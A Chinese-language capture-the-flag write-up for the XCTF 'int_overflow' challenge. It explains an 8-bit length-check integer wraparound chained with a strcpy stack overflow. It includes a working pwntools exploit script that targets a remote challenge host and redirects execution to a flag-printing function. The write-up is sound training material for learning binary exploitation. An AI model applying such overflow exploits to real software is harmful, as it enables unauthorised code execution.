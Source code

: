 # 攻防世界 int_overflow

**考察的是整数范围溢出加栈溢出**

![image-20210303182419977](img/1.png)

通过我们先通过file去看文件是什么类型，然后使用checksec去检查文件的保护。然后使用ida打开文件。

**先查看main函数**

![image-20210303180344634](img/2.png)

就是一个登录操作。然后去跟进`login`函数

![image-20210303180454286](img/3.png)

这里buf变量最多读0x199的字节。然后在跟进`check_passwd`函数

![image-20210303180626975](img/4.png)

可以看到v3变量的数据类型是`unsigned __int` 而这个数据类型是8bit 0-255

当我们输入256的时候就会让v3改变成1。所以我们满足>3u || <8u这个条件就需要让`v3=259-264`这里解释一下为什么不行直接输入3-8字节的内容。

因为我们需要在`strcpy`进行栈溢出，所以需要的字节肯定是超过8字节的，所以就需要考虑到整数溢出。

最后利用是栈溢出覆盖成`what_is_this`的返回地址，因为`dest`的变量长度是14。

![image-20210303181431280](img/4.png)

所以我们就可以构造exp

```python
from pwn import *
io = remote("111.200.241.244", 38536)
cat_flag_addr = 0x804868B
io.sendlineafter("Your choice:", "1")
io.sendlineafter("your username:", "Firebasky")
io.recvuntil("your passwd:")
payload = b'a' * 0x14 + b'aaaa' +p32(cat_flag_addr)+b'a'*234
io.sendline(payload)
io.recv()
io.interactive()
```

需要注意后面的234是通过`262-0x14-4-4`

```
第一次-4的原因是因为程序的32的位的，而程序在覆盖函数返回地址之前会进行一次出栈的操作，出栈数据大小 4 字节，即覆盖之前还需将这 4 字节覆盖了才能实现跳转指向 what_is_this 函数。
第二次-4是因为p32()是4个字节。
```

也可以使用（`259~264`)-28=`231~236` 不能等于236 

![image-20210303182340370](img/5.png)
